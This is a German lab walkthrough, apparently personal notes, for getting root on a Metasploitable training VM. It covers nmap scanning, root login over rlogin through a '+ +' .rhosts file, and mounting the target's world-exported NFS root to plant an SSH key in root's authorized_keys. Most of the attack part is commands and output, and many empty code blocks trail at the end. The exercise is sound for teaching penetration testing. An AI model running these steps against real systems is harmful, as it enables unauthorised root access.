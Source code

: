 
```sh
ssh -vvv -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa root@$META
```

IP Adresse von Metasploitable herausfinden:

```sh
nmap -sn 192.168.220.0/24
```

Alle Ports scannen

```sh
$ nmap -p 0-65535 192.168.220.128     
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-24 07:50 EDT
Nmap scan report for 192.168.220.128
Host is up (0.0018s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6667/tcp  open  irc
6697/tcp  open  ircs-u
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  msgsrvr
40943/tcp open  unknown
44541/tcp open  unknown
49963/tcp open  unknown
58525/tcp open  unknown
MAC Address: 00:0C:29:79:C9:39 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

# rlogin

```sh
$ META=192.168.220.128
$ rlogin -l root $META
```

Dann ist man als `root` eingelogt. Der Grund ist die Fehlkonfiguration:

```sh
```
```
$ cat .rhosts 
+ +
```

# nfs

"Probing" des 2049 Ports z.b. mit telnet

```sh
$ telnet $META 2049   
```
```
Trying 192.168.220.128...
Connected to 192.168.220.128.
Escape character is '^]'.
sdf
Connection closed by foreign host.
```

oder mit portmapper service:

```sh
$ rpcinfo -p $META    
```
```
   program vers proto   port  service
    100000    2   tcp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  33140  status
    100024    1   tcp  44541  status
    100003    2   udp   2049  nfs
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100021    1   udp  36094  nlockmgr
    100021    3   udp  36094  nlockmgr
    100021    4   udp  36094  nlockmgr
    100003    2   tcp   2049  nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100021    1   tcp  49963  nlockmgr
    100021    3   tcp  49963  nlockmgr
    100021    4   tcp  49963  nlockmgr
    100005    1   udp  51852  mountd
    100005    1   tcp  40943  mountd
    100005    2   udp  51852  mountd
    100005    2   tcp  40943  mountd
    100005    3   udp  51852  mountd
    100005    3   tcp  40943  mountd
                                                                                                       
```

Welche Verzeichnisse werden exportiert:

```sh
$ showmount -e $META
```
```
Export list for 192.168.220.128:
/ *
```

Weitermachen als root am Kali:

```
$ sudo -i
```

```sh
root@kali# mkdir /tmp/r00t
root@kali# mount -t nfs $META:/ /tmp/r00t
```

rsa verwenden Metasploitable kann nichts anderes.

```
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub >>/tmp/r00t/root/.ssh/authorized_keys
```

Auch beim ssh muss man Berücksichtigen, dass Metasploitable die neueren Algorithmen nicht unterstützt. Der Kali Client erwartet diese aber.

```
ssh -vvv -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa root@$META
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```

```
```
